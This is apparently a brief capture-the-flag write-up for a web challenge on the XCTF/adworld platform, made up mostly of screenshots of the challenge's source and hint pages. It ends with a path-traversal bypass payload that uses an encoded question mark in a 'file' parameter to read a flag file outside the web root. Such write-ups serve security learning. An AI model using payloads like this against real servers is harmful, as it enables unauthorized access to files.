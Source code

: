 https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5442&page=1

. view source

<img width="782" alt="Not Secure  111 200 241 24465197" src="https://user-images.githubusercontent.com/48151790/126885857-2fb24110-ba27-4335-a642-de685a475239.png">

. source.php

<img width="664" alt="Not Secure  111 200 241 24465197source php" src="https://user-images.githubusercontent.com/48151790/126885863-50e1e428-daeb-41e4-84a6-7f463e45d264.png">

. hint.php

<img width="596" alt="Not Secure  111 200 241 24465197hint php" src="https://user-images.githubusercontent.com/48151790/126885866-4e35f948-c26d-4dea-ab1d-cbd9d8b8a0df.png">

=> Maybe Path traversal???
=> ../../ffffllllaaaagggg
=> bypass: ?file=source.php?%3F../../../../../ffffllllaaaagggg

<img width="810" alt="Screen Shot 2021-07-22 at 21 31 39" src="https://user-images.githubusercontent.com/48151790/126885891-5fdf872b-0851-49ca-bc14-f7115d91a384.png">
